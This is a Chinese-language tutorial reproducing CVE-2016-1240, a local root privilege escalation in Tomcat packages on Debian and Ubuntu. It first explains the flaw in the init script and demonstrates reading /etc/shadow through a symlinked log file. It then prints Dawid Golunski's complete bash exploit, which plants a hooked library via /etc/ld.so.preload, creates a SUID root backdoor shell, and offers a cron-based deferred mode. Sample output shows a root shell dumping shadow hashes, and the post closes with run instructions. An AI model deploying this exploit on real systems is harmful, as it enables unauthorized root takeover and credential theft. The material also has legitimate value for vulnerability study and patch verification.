





# （CVE-2016-1240）Tomcat本地提权漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3196](https://www.zhihuifly.com/t/topic/3196)

# （CVE-2016-1240）Tomcat本地提权漏洞

## 一、漏洞简介

Debian系统的Linux上管理员通常利用apt-get进行包管理，CVE-2016-1240这一漏洞其问题出在Tomcat的deb包中,使 deb包安装的Tomcat程序会自动为管理员安装一个启动脚本：`/etc/init.d/tocat*`利用该脚本，可导致攻击者通过低权限的Tomcat用户获得系统root权限！

## 二、漏洞影响

Tomcat 8 <= 8.0.36-2
Tomcat 7 <= 7.0.70-2
Tomcat 6 <= 6.0.45+dfsg-1~deb8u1

## 三、复现过程

### 漏洞分析

Debian系统的Linux上管理员通常利用apt-get进行包管理，CVE-2016-1240这一漏洞其问题出在Tomcat的deb包中,使用deb包安装的Tomcat程序会自动为管理员安装一个启动脚本：/etc/init.d/tomcat<版本号>.sh。利用该脚本，可导致攻击者通过低权限的Tomcat用户获得系统root权限。
现在我们查看文件 /etc/init.d/tomcat7 操作如下：
首先我们使用 Evrething搜索`xshell`，选中xshell.exe运行xshell，然后连接上目标机的低权限用户tomcat7，账号是tomcat7，密码是：tomcat7。



然后执行命令`whoami`，可以看到，现在是tomcat7的权限，也就是低权限账户


然后执行命令`vim /etc/init.d/tomcat7`, 然后按`Esc`键,接下来输入英文状态下的字符冒号: `set number`,找到171行。

> **小提示:**vim是一个文本编辑器，`vim /etc/init.d/tomcat7`的意思是编辑/etc/init.d/文件夹下的tomcat7文件。



其造成漏洞核心代码如下：

```
# Run the catalina.sh script as a daemon 
set +e 
touch "$CATALINA_PID" "$CATALINA_BASE"/logs/catalina.out
chown $TOMCAT6_USER "$CATALINA_PID" "$CATALINA_BASE"/logs/catalina.out 
```

我们阅读上面的shell脚本

*   第一行，`set +e`,要知道`set +e`是什么意思，得先清楚set -e的含义：
    使用set更改shell特性时，符号"+"和"-"的作用分别是打开和关闭指定的模式,`set -e`的意思是若指令传回值不等于0，则立即退出shell，而`set +e`的意思反之
*   第二行，touch是创建文件夹的意思，创建了catalina.out日志文件，前面的两个字符串定位了PID和BASE，涉及到其他变量这里不做探讨
*   第三行，chown是改变文件夹权限的命令，它将catalina.out日志文件的所述用户更改为低权限用户

这个脚本看似是没有什么问题的。但是从上面的脚本可以得出三点信息：

> 1.  这个脚本运行时的权限必然是root权限。因为普通用户是无法使用`chown`命令，也就是没有更高的权限。

> 1.  该脚本使用touch命令创建文件，此时存在以下：文件存在、不存在、存在为符号链接等情况，当文件为符号链接时会默认地对链接的文件进行操作。

> 1.  脚本运行完毕后Tomcat服务器启动，此时catalina.out这个log文件的所属用户为tomcat，所属组为root。

综述上述，这就给漏洞利用创造了可能。

接下来我们来验证是否可以利用：

当前的用户为tomcat7。这就是说我们能够更改所属用户为tomcat7的catalina.out这个log文件的内容和属性。
更改它的属性，让他指向/etc/shadow/文件夹下，现在我们创建一个指向 /etc/shadow 的符号链接。
使用命令`ln -fs /etc/shadow /var/log/tomcat7/catalina.out`,这时候就可以在/etc/shadow下创建一个链接，就相当于Windows的快捷方式一样。


此时我们查看文件cataline.out的内容，此时是权限不够，禁止读取cataline.out的内容的：


现在我们需要登陆root账户重启tomcat。登陆方法与登陆Tomcat7 用户相同，账号为：root, 密码为：123456 。重启Tomcat的命令为：

```
service tomcat7 restart 
```

重启成功之后我们再次使用`低权限用户`读取cataline.out的内容：使用命令

```
head /var/log/tomcat6/catalina.out 
```

使用head命令可以输出文件前十行的内容，而`cat`命令则是预览文件的全部内容。



**原理:**当Tomcat服务重启时，系统默认重新加载`/var/log/tomcat6/catalina.out`脚本，由于此时tomcat的日志文件指向了`/etc/shadow文件`; 而该文件就是我们之前创建的链接文件，而链接文件属于Tomcat7这个`低权限用户`，因此，我们就可以查看其中内容了。

### 漏洞复现

本步将使用poc根据Tomcat7漏洞进行提权

#### poc

```
#!/bin/bash
#
# Tomcat 6/7/8 on Debian-based distros - Local Root Privilege Escalation Exploit
#
# CVE-2016-1240
#
# Discovered and coded by:
#
# Dawid Golunski
# http://legalhackers.com
#
# This exploit targets Tomcat (versions 6, 7 and 8) packaging on 
# Debian-based distros including Debian, Ubuntu etc.
# It allows attackers with a tomcat shell (e.g. obtained remotely through a 
# vulnerable java webapp, or locally via weak permissions on webapps in the 
# Tomcat webroot directories etc.) to escalate their privileges to root.
#
# Usage:
# ./tomcat-rootprivesc-deb.sh path_to_catalina.out [-deferred]
#
# The exploit can used in two ways:
#
# -active (assumed by default) - which waits for a Tomcat restart in a loop and instantly
# gains/executes a rootshell via ld.so.preload as soon as Tomcat service is restarted. 
# It also gives attacker a chance to execute: kill [tomcat-pid] command to force/speed up
# a Tomcat restart (done manually by an admin, or potentially by some tomcat service watchdog etc.)
#
# -deferred (requires the -deferred switch on argv[2]) - this mode symlinks the logfile to 
# /etc/default/locale and exits. It removes the need for the exploit to run in a loop waiting. 
# Attackers can come back at a later time and check on the /etc/default/locale file. Upon a 
# Tomcat restart / server reboot, the file should be owned by tomcat user. The attackers can
# then add arbitrary commands to the file which will be executed with root privileges by 
# the /etc/cron.daily/tomcatN logrotation cronjob (run daily around 6:25am on default 
# Ubuntu/Debian Tomcat installations).
#
# See full advisory for details at:
# http://legalhackers.com/advisories/Tomcat-DebPkgs-Root-Privilege-Escalation-Exploit-CVE-2016-1240.html
#
# Disclaimer:
# For testing purposes only. Do no harm.
#

BACKDOORSH="/bin/bash"

BACKDOORPATH="/tmp/tomcatrootsh"

PRIVESCLIB="/tmp/privesclib.so"

PRIVESCSRC="/tmp/privesclib.c"

SUIDBIN="/usr/bin/sudo"

function cleanexit {

# Cleanup

echo -e “\n[+] Cleaning up…”

rm -f $PRIVESCSRC

rm -f $PRIVESCLIB

rm -f $TOMCATLOG

touch $TOMCATLOG

if [ -f /etc/ld.so.preload ]; then

echo -n > /etc/ld.so.preload 2>/dev/null

fi

echo -e “\n[+] Job done. Exiting with code $1 \n”

exit $1

}

function ctrl_c() {

echo -e “\n[+] Active exploitation aborted. Remember you can use -deferred switch for deferred exploitation.”

cleanexit 0

}

#intro

echo -e “\033[94m \nTomcat 6/7/8 on Debian-based distros - Local Root Privilege Escalation Exploit\nCVE-2016-1240\n”

echo -e “Discovered and coded by: \n\nDawid Golunski \nhttp://legalhackers.com \033[0m”

# Args

if [ $# -lt 1 ]; then

echo -e “\n[!] Exploit usage: \n\n$0 path_to_catalina.out [-deferred]\n”

exit 3

fi

if [ “$2” = “-deferred” ]; then

mode=“deferred”

else

mode=“active”

fi

# Priv check

echo -e “\n[+] Starting the exploit in [\033[94m$mode\033[0m] mode with the following privileges: \n`id`”

id | grep -q tomcat

if [ $? -ne 0 ]; then

echo -e “\n[!] You need to execute the exploit as tomcat user! Exiting.\n”

exit 3

fi

# Set target paths

TOMCATLOG="$1"

if [ ! -f $TOMCATLOG ]; then

echo -e “\n[!] The specified Tomcat catalina.out log ($TOMCATLOG) doesn’t exist. Try again.\n”

exit 3

fi

echo -e “\n[+] Target Tomcat log file set to $TOMCATLOG”

# [ Deferred exploitation ]

# Symlink the log file to /etc/default/locale file which gets executed daily on default

# tomcat installations on Debian/Ubuntu by the /etc/cron.daily/tomcatN logrotation cronjob around 6:25am.

# Attackers can freely add their commands to the /etc/default/locale script after Tomcat has been

# restarted and file owner gets changed.

if [ “$mode” = “deferred” ]; then

rm -f $TOMCATLOG && ln -s /etc/default/locale $TOMCATLOG

if [ $? -ne 0 ]; then

echo -e “\n[!] Couldn’t remove the $TOMCATLOG file or create a symlink.”

cleanexit 3

fi

echo -e  “\n[+] Symlink created at: \n`ls -l $TOMCATLOG`”

echo -e  “\n[+] The current owner of the file is: \n`ls -l /etc/default/locale`”

echo -ne “\n[+] Keep an eye on the owner change on /etc/default/locale . After the Tomcat restart / system reboot”

echo -ne “\n    you’ll be able to add arbitrary commands to the file which will get executed with root privileges”

echo -ne “\n    at ~6:25am by the /etc/cron.daily/tomcatN log rotation cron. See also -active mode if you can’t wait 

\n\n”

exit 0

fi

# [ Active exploitation ]

trap ctrl_c INT

# Compile privesc preload library

echo -e “\n[+] Compiling the privesc shared library ($PRIVESCSRC)”

cat <<*solibeof*>$PRIVESCSRC

#define _GNU_SOURCE

#include <stdio.h>

#include <sys/stat.h>

#include <unistd.h>

#include <dlfcn.h>

uid_t geteuid(void) {

static uid_t  (*old_geteuid)();

old_geteuid = dlsym(RTLD_NEXT, “geteuid”);

if ( old_geteuid() == 0 ) {

chown("$BACKDOORPATH", 0, 0);

chmod("$BACKDOORPATH", 04777);

unlink("/etc/ld.so.preload");

}

return old_geteuid();

}

*solibeof*

gcc -Wall -fPIC -shared -o $PRIVESCLIB $PRIVESCSRC -ldl

if [ $? -ne 0 ]; then

echo -e “\n[!] Failed to compile the privesc lib $PRIVESCSRC.”

cleanexit 2;

fi

# Prepare backdoor shell

cp $BACKDOORSH $BACKDOORPATH

echo -e “\n[+] Backdoor/low-priv shell installed at: \n`ls -l $BACKDOORPATH`”

# Safety check

if [ -f /etc/ld.so.preload ]; then

echo -e “\n[!] /etc/ld.so.preload already exists. Exiting for safety.”

cleanexit 2

fi

# Symlink the log file to ld.so.preload

rm -f $TOMCATLOG && ln -s /etc/ld.so.preload $TOMCATLOG

if [ $? -ne 0 ]; then

echo -e “\n[!] Couldn’t remove the $TOMCATLOG file or create a symlink.”

cleanexit 3

fi

echo -e “\n[+] Symlink created at: \n`ls -l $TOMCATLOG`”

# Wait for Tomcat to re-open the logs

echo -ne “\n[+] Waiting for Tomcat to re-open the logs/Tomcat service restart…”

echo -e  "\nYou could speed things up by executing : kill [Tomcat-pid] (as tomcat user) if needed 

"

while :; do

sleep 0.1

if [ -f /etc/ld.so.preload ]; then

echo $PRIVESCLIB > /etc/ld.so.preload

break;

fi

done

# /etc/ld.so.preload file should be owned by tomcat user at this point

# Inject the privesc.so shared library to escalate privileges

echo $PRIVESCLIB > /etc/ld.so.preload

echo -e “\n[+] Tomcat restarted. The /etc/ld.so.preload file got created with tomcat privileges: \n`ls -l /etc/ld.so.preload`”

echo -e “\n[+] Adding $PRIVESCLIB shared lib to /etc/ld.so.preload”

echo -e “\n[+] The /etc/ld.so.preload file now contains: \n`cat /etc/ld.so.preload`”

# Escalating privileges via the SUID binary (e.g. /usr/bin/sudo)

echo -e “\n[+] Escalating privileges via the $SUIDBIN SUID binary to get root!”

sudo --help 2>/dev/null >/dev/null

# Check for the rootshell

ls -l $BACKDOORPATH | grep rws | grep -q root

if [ $? -eq 0 ]; then

echo -e “\n[+] Rootshell got assigned root SUID perms at: \n`ls -l $BACKDOORPATH`”

echo -e “\n\033[94mPlease tell me you’re seeing this too 

\033[0m”

else

echo -e “\n[!] Failed to get root”

cleanexit 2

fi

# Execute the rootshell

echo -e “\n[+] Executing the rootshell $BACKDOORPATH now! \n”

$BACKDOORPATH -p -c “rm -f /etc/ld.so.preload; rm -f $PRIVESCLIB”

$BACKDOORPATH -p

# Job done. `cleanexit 0` 
```

#### poc运行示例：

```
tomcat7@ubuntu:/tmp$ id
uid=110(tomcat7) gid=118(tomcat7) groups=118(tomcat7)

tomcat7@ubuntu:/tmp$ lsb_release -a

No LSB modules are available.

Distributor ID:	Ubuntu

Description:	Ubuntu 16.04 LTS

Release:	16.04

Codename:	xenial

tomcat7@ubuntu:/tmp$ dpkg -l | grep tomcat

ii  libtomcat7-java              7.0.68-1ubuntu0.1               all          Servlet and JSP engine – core libraries

ii  tomcat7                      7.0.68-1ubuntu0.1               all          Servlet and JSP engine

ii  tomcat7-common               7.0.68-1ubuntu0.1               all          Servlet and JSP engine – common files

tomcat7@ubuntu:/tmp$ ./tomcat-rootprivesc-deb.sh /var/log/tomcat7/catalina.out

Tomcat 6/7/8 on Debian-based distros - Local Root Privilege Escalation Exploit

CVE-2016-1240

Discovered and coded by:

Dawid Golunski

[http://legalhackers.com](http://legalhackers.com)

[+] Starting the exploit in [active] mode with the following privileges:

uid=110(tomcat7) gid=118(tomcat7) groups=118(tomcat7)

[+] Target Tomcat log file set to /var/log/tomcat7/catalina.out

[+] Compiling the privesc shared library (/tmp/privesclib.c)

[+] Backdoor/low-priv shell installed at:

-rwxr-xr-x 1 tomcat7 tomcat7 1037464 Sep 30 22:27 /tmp/tomcatrootsh

[+] Symlink created at:

lrwxrwxrwx 1 tomcat7 tomcat7 18 Sep 30 22:27 /var/log/tomcat7/catalina.out -> /etc/ld.so.preload

[+] Waiting for Tomcat to re-open the logs/Tomcat service restart…

You could speed things up by executing : kill [Tomcat-pid] (as tomcat user) if needed 

[+] Tomcat restarted. The /etc/ld.so.preload file got created with tomcat privileges:

-rw-r–r-- 1 tomcat7 root 19 Sep 30 22:28 /etc/ld.so.preload

[+] Adding /tmp/privesclib.so shared lib to /etc/ld.so.preload

[+] The /etc/ld.so.preload file now contains:

/tmp/privesclib.so

[+] Escalating privileges via the /usr/bin/sudo SUID binary to get root!

[+] Rootshell got assigned root SUID perms at:

-rwsrwxrwx 1 root root 1037464 Sep 30 22:27 /tmp/tomcatrootsh

Please tell me you’re seeing this too 

[+] Executing the rootshell /tmp/tomcatrootsh now! `tomcatrootsh-4.3# id

uid=110(tomcat7) gid=118(tomcat7) euid=0(root) groups=118(tomcat7)

tomcatrootsh-4.3# whoami

root

tomcatrootsh-4.3# head -n3 /etc/shadow

root:$6$oaf[cut]:16912:0:99999:7:::

daemon:*:16912:0:99999:7:::

bin:*:16912:0:99999:7:::

tomcatrootsh-4.3# exit

exit` 
```

首先我们下载poc文件，然后执行命令`cd /tmp`进入目录,然后编辑文件`vim poc.sh`。将桌面的poc.sh使用Notepad++打开，将文件内容粘贴进去。然后按键盘Esc键，再输入`:wq`，之后按 Enter 键将文件保存。
如果无法写入文件，使用命令

```
chmod 755 poc.sh 
```

执行命令后，再次重复上一步即可，chmod的意思是改变文件的权限，775是什么权限呢？第一个数字代表文件所属者的权限，第二个数字代表文件所属者所在组的权限，第三个数字代表其它用户的权限，7=4+2+1

> 4：执行时设置用户ID，用于授权给基于文件属主的进程，而不是给创建此进程的用户。
> 2：执行时设置用户组ID，用于授权给基于文件所在组的进程，而不是基于创建此进程的用户。
> 1：设置粘着位。



这时，poc文件就已经构造好了，接下来运行脚本运行命令为：

```
./poc.sh /var/log/tomcat7/catalina.out 
```

运行之后，会出现卡顿现象，这时候我们切换到root用户，重新启动Tomcat7，这时候使用命令`whoami`查看当前用户，这时候已经是 root 用户了，这时候就提权成功了



可以看到，命令提示符的开头为`tomcat`低权限用户，而我们执行whoami命令的时候，显示的权限却是root，这样就成功的提权了。

## 参考链接

> https://www.jianshu.com/p/94e4feac245f